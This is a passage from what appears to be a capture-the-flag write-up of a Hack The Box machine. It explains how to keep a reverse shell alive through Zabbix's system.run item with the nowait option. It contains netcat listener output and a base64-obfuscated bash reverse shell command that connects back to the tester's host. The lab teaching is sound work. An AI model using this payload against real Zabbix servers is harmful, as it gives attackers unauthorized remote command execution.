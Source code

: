 
The website hangs waiting:

![image-20220331073528651](https://0xdfimages.gitlab.io/img/image-20220331073528651.png)

After about 5 seconds, the website shows an error:

![image-20220331073551485](https://0xdfimages.gitlab.io/img/image-20220331073551485.png)

And the shell dies:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 39812
    bash: cannot set terminal process group (101454): Inappropriate ioctl for device
    bash: no job control in this shell
    zabbix@shibboleth:/$ exit
    oxdf@hacky$
    

Interestingly, I didn’t type `exit`. That came from Zabbix.

#### Stabilize

I had this same issue on [Zipper](/2019/02/23/htb-zipper.html#stable-shell).
There, I solved it by having my listener set up to issue commands back that
generated a new shell in a new Perl process. I did test that, and it works
here, but it’s unnecessary.

On the [Zabbix Agent documentation
page](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent),
the section for `system.run` gives some detail of how it works:

[![image-20220331080244452](https://0xdfimages.gitlab.io/img/image-20220331080244452.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220331080244452.png)

It takes a command and an optional `wait` or `nowait`. With `nowait`, it
returns 1 and doesn’t wait for execution to finish.

I’ll update my Key to:

    
    
    system.run[echo YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash, nowait]
    

On pushing “Get value” the value immediately updates to 1, and the shell
connects, and doesn’t die.

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.124 43058
    bash: cannot set terminal process group (858): Inappropriate ioctl for device
    bash: no job control in this shell
    zabbix@shibboleth:/$
    